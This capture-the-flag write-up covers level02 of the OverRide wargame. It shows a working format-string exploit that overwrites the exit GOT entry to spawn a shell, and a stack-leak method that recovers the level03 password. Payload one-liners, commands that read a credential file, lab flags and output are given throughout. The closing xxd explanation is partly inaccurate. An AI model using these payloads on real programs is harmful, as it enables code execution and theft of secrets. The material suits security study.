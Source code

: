 
```
level02@OverRide:~$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username:
```
```
<+245>:	lea    -0xa0(%rbp),%rax ==> result of reading "/home/users/level03/.pass" = the Flag
<+252>:	mov    $0x400bf5,%esi   ==> "\n"
<+257>:	mov    %rax,%rdi
<+260>:	callq  0x4006d0 <strcspn@plt>
```
```
strcspn() calculates the length of the number of characters before the 1st occurrence of character present in both the string
Parameters:
str1 : The Target string in which search has to be made.
str2 : Argument string containing characters to match in target string.
```
strcspn("PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv", "\n"). // the flag from level01

In this case, there is no occurrence of the newline character \n in the first string, so the function will return the length of the entire string, which is 40.
```
 <+260>:	callq  0x4006d0 <strcspn@plt>
 <+265>:	movb   $0x0,-0xa0(%rbp,%rax,1)
 <+273>:	cmpl   $0x29,-0xc(%rbp)       ===> ret fread() = -0xc(%rbp)
INTEL 
 <+265>:	mov    BYTE PTR [rbp+rax*1-0xa0],0x0
 <+273>:	cmp    DWORD PTR [rbp-0xc],0x29
```
```
rbp+rax*1-0xa0 = 0 ==> rbp-0xa0 + rax ==> *(rbp-0xa0 + rax) = 0 ==> buffer + rax ==> buffer[rax] = 0 
then compares the res of fread() to 41
```
```
if not equal; then 
  0x400bf8:	 "ERROR: failed to read password file\n"
  exit(1)
else jmp to <+361>

fclose(*File) // -0x8(%rbp)
```
```
the program really begins at <+373>
0x400c20:	 "===== [ Secure Access System v1.0 ] ====="
```
```
 <+431>:	mov    0x20087e(%rip),%rax        # 0x601248 <stdin@@GLIBC_2.2.5>
 <+438>:	mov    %rax,%rdx
 <+441>:	lea    -0x70(%rbp),%rax
 <+445>:	mov    $0x64,%esi
 <+450>:	mov    %rax,%rdi
 <+453>:	callq  0x4006f0 <fgets@plt>
```
```
<+453>: fgets Username from stdin and stores it at -0x70(%rbp)
<+523>:	fgets Username from stdin and stores it at -0x110(%rbp)

<+566>:	lea    -0x110(%rbp),%rcx ==> the PWD
<+573>:	lea    -0xa0(%rbp),%rax  ==> The Flag

<+591>:	callq  0x400670 <strncmp@plt>

strncmp(Flag, PWD, 0x29/41);

if jne    <main+642>
   printf(-0x70(%rbp) ) // username
   "username" does not have access!
   exit
else
  printf("Greetings, %s!\n", -0x70(%rbp)) // username
  system (/bin/sh)
```

Format String to overide the GOT

```
--[ Username: %p %p %p %p %p %p %p %p
--[ Password: AAAA
*****************************************
0x7fffffffe4c0 (nil) 0x41 0x2a2a2a2a2a2a2a2a 0x2a2a2a2a2a2a2a2a 0x7fffffffe6b8 0x1f7ff9a08 0x41414141
```

`(python -c 'print " %p " * 8 + "\n" + "AAAA"') | ./level02`

```
level02@OverRide:~$ (python -c 'print "%8$p" + "\n" + "AAAA"') | ./level02
0x41414141 does not have access!
```
```
x/s 0x601228
0x601228 <exit@got.plt>


----> 0x0000000000400a85 <+625>:	mov    edi,0x400d32 
      0x0000000000400a8a <+630>:	call   0x4006b0 <system@plt>

p 0x0000000000400a85 = 4196997
```

```
level02@OverRide:~$ (python -c 'print "%4196997p%8$n" + "\n" + "\x60\x12\x28"[::-1]' ; cat) | ./level02 > /dev/null
pwd 1>&2
/home/users/level02
cat /home/users/level03/.pass
cat /home/users/level03/.pass 1>&2
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
```

**SECOND METHOD




```
(python -c 'print " %p " * 100 + "\n" + "AAAA"') | ./level02 | xargs -n 1 echo

...
0x756e505234376848
0x45414a3561733951
0x377a7143574e6758
0x354a35686e475873
...

The length of the flag string is 40 so we need 5 * 8 (16/2 hex len)

the value at the 26th position on the stack  
(python -c 'print "%26$p" + "\n" + "AAAA"') | ./level02
0x48336750664b394d

then lets reconstruct our flag

echo "0x756e505234376848" | xxd -r -p | rev
Hh74RPnu


0x756e505234376848 ==> Hh74RPnu
0x45414a3561733951 ==> Q9sa5JAE
0x377a7143574e6758 ==> XgNWCqz7
0x354a35686e475873 ==> sXGnh5J5
0x48336750664b394d ==> M9KfPg3H

Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H

--[ Username: user
--[ Password: Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
*****************************************
Greetings, user!
$ pwd
/home/users/level02
```

simplified script

```
level02@OverRide:~$ for ((i=1; i<=26; i++)); do (python -c "print '%$i\$p'" && echo) | ./level02 | grep 0x ; done

0x7fffffffe4c0 does not have access!
0x2a2a2a2a2a2a2a2a does not have access!
0x2a2a2a2a2a2a2a2a does not have access!
0x7fffffffe6b8 does not have access!
0x1f7ff9a08 does not have access!
0x100000000 does not have access!
0x756e505234376848 does not have access!
0x45414a3561733951 does not have access!
0x377a7143574e6758 does not have access!
0x354a35686e475873 does not have access!
0x48336750664b394d does not have access!
```

more simplistic syntax

`(python -c 'print "%22$p %23$p %24$p %25$p %26$p" + "\n" + "AAAA"') | ./level02 | xargs -n 1 echo | tail -n 9 | head -n 5`

`python -c "print '756e505234376848'.decode('hex')[::-1] + '45414a3561733951'.decode('hex')[::-1] + '377a7143574e6758'.decode('hex')[::-1] + '354a35686e475873'.decode('hex')[::-1] + '48336750664b394d'.decode('hex')[::-1]"`


********notes

`echo "$i - %$i\$p"`: This command uses the echo command to print a string that includes the current value of i and a format specifier (%$i\$p) that specifies the position of the argument to be printed by the printf function. The $i syntax refers to the current value of the loop variable i, and the backslash before the $ character is used to escape it so that it is interpreted as a literal character.

`echo "0x756e505234376848" | xxd -r -p`
This will pipe the string "0x756e505234376848" to the xxd command, which will convert it from hex to binary format. The -r option tells xxd to reverse the conversion process (from binary back to hex), and the -p option tells xxd to read the input as plain hexadecimal digits (without any whitespace or other formatting). The resulting binary data is then piped to the echo command, which will print it to the console as ASCII text.





